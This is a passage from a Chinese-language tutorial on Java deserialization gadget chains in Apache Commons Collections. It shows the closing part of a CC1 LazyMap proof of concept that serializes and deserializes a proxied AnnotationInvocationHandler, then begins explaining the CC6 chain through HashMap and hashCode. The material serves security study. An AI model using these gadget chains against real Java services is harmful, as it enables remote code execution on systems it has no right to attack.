 ```plain
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections6:

### 调用链：

CC1 在 jdk 的包更新到 8u71 以后，就对漏洞点进行了修复（`CC1TransformedMap`链去掉了`Map.Entry`的`setValue`方法）（`CC1LazyMap`使用了`put`对类进行传参），因为反序列化不仅对类有依赖，还对外部的 CC 库，以及 jdk 版本有依赖，所以这里 CC1 就并不那么兼容，就引入了`CC6`不受`jdk`版本的限制：

CC6 中引用了`HashMap`来进行反序列化链子的构造，通过`HashMap`里面的`readObject`方法来调用里面的`put`方法，然后调用 hash 方法最后调用`hashCode`方法，如果从`hashCode`里面能找到的一个调用`get`的链，就成功了，这样就不会受到 jdk 版本的限制：

[![](assets/1701612311-70832c63c71f6bb6439d8a29e1f32168.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235217-13a4fd7c-20cc-1.png)
